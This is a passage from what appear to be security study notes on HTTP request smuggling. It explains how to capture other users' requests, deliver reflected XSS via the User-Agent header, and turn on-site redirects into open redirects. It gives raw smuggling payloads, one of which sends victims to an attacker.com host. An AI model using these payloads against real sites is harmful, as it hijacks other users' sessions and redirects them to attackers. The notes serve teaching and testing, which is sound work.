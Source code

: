 #### NOTE
- One limitation with this technique is that it will generally only capture data up until the parameter delimiter that is applicable for the smuggled request. For URL-encoded form submissions, this will be the `&` character, meaning that the content that is stored from the victim user's request will end at the first `&`, which might even appear in the query string.

## Using HTTP request Smuggling to Exploit XSS
- if an application is vulnerable to request smuggling and also contains reflected XSS , we use a request smuggling attack to hit other users of the application.
	- it required no interaction with victim users, we don't need to feed them a URL and wait to visit them, we just need to smuggle the request that is processing by the back-end server
	- it can be used to exploit XSS behavior in parts of the request that cannot be trivially controlled in normal `reflected XSS`
`example:` there is `reflected xss vuln in User-Agent` we exploit this using request smuggling 
```js
POST / HTTP/1.1
Host: vuln-web.com
Content-Length: 63
Transfer-Encoding: chunked

0


POST / HTTP/1.1
User-Agent: <script>alert(0)</script>
foo: x
```
the next user who visit the site will trigger `XSS`

## Using HTTP Request Smuggling To turn On-Site Redirection into an Open-redirect
- many application preforms on-site redirection from one URL to another and place the hostname from the request's `Host header` into the redirect `URL`.
`example:` default behavior of `Apache ` and `IIS` servers, where a request for a folder without `/` receives a redirect to the same folder including `/` 
```js
GET /home HTTP/1.1
Host: vuln-web.com

HTTP/1.1 301 Moved Permantely
Location: https://vuln-web.com/home/
```
this is harmless, but can be exploited in a request smuggling attack to redirect other users to an external domain.
```js
POST / HTTP/1.1
Host: vuln-web.com
Content-Length: 53
Transfer-Encoding: chunked

0


GET /home HTTP/1.1
Host: attacker.com
any: X
```
this will trigger a redirect to attacker's application , and will affect the next user who make request to application.
